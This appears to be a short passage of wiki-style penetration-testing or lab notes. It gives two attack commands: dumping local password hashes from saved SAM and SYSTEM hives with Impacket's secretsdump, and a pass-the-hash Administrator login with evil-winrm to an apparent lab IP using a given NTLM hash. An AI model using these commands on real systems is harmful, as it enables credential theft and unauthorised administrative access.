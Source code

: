#### Local SAM and SYSTEM file dump
```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

#### Pass-the-Hash attack
```bash
evil-winrm -i 10.10.11.163 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

More info on [[Assign Group Memberships]]